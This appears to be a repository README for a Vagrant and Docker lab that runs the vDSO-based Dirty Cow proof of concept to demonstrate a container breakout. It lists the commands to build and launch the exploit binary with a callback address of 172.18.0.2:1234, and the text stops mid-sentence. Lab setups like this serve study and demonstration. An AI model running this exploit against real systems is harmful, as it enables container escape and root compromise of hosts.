 # dirtycow-docker-vdso_2

This directory contains the necessary code to get the vdso based Dirty Cow POC working inside a docker container. 
All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.
This exploit is from  https://github.com/gebl/dirtycow-docker-vdso.git'}

This exploit is similar that dirtycow-docker-vdso_1 with exception no seperate user is created 

To execute:
``
	vagrant up
	vagrant putty
``

Once inside the VM run to launch the Docker Container:
``
	sudo docker-compose run dirtycow /bin/bash" 
``

Inside the Docker container run:
``
    cd /dirtycow-vdso
     make
     ./0xdeadbeef 172.18.0.2:1234" 
``      

Wait a few minutes for the exploit to launch 

Show the breakout of the container by running 

``
ifconfig
``	

Succesful breakout should list

	
  
